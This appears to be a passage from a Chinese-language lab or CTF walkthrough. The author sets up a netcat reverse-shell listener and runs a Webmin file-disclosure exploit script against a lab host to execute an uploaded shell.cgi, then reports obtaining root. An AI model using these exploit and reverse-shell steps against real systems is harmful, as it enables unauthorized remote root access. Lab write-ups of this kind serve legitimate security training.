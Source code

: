 赋予执行款权限

```bash
vmware@ubuntuvm:~$ ls
shell.cgi
vmware@ubuntuvm:~$ chmod +x shell.cgi
vmware@ubuntuvm:~$ ls -la
total 32
drwxr-xr-x 3 vmware vmware 4096 2024-02-24 21:46 .
drwxr-xr-x 6 root   root   4096 2008-06-11 09:26 ..
-rw------- 1 vmware vmware   65 2008-06-20 14:39 .bash_history
-rw-r--r-- 1 vmware vmware  220 2008-06-10 07:10 .bash_logout
-rw-r--r-- 1 vmware vmware 2298 2008-06-10 07:10 .bashrc
-rw-r--r-- 1 vmware vmware  566 2008-06-10 07:10 .profile
-rwxr-xr-x 1 vmware vmware 3714 2024-02-24 21:46 shell.cgi
drwx------ 2 vmware vmware 4096 2008-06-12 11:19 .ssh
-rw-r--r-- 1 vmware vmware    0 2008-06-10 12:43 .sudo_as_admin_successful
```

kali监听`1234`端口

```bash
┌──(kali㉿kali)-[~]
└─$ sudo nc -lvnp 1234
sudo: unable to resolve host kali: Name or service not known
listening on [any] 1234 ...
```

kali执行上面webmin文件泄露的那个脚本，去执行`shell.cgi`

```bash
┌──(kali㉿kali)-[~]                                                                           │
└─$ perl 2017.pl 10.10.10.16 10000 /home/vmware/shell.cgi 0                                   │
WEBMIN EXPLOIT !!!!! coded by UmZ!                                                            │
Comments and Suggestions are welcome at umz32.dll [at] gmail.com                              │
Vulnerability disclose at securitydot.net                                                     │
I am just coding it in perl 'cuz I hate PHP!                                                  │
Attacking 10.10.10.16 on port 10000!                                                          │
FILENAME:  /home/vmware/shell.cgi                                                             │
                                                                                              │
 FILE CONTENT STARTED                                                                         │
 -----------------------------------                                                          │
Browser IP address appears to be: 10.10.10.11<p>                                              │
                                                                                              │
 -------------------------------------              
```

反弹成功，拿到`root`
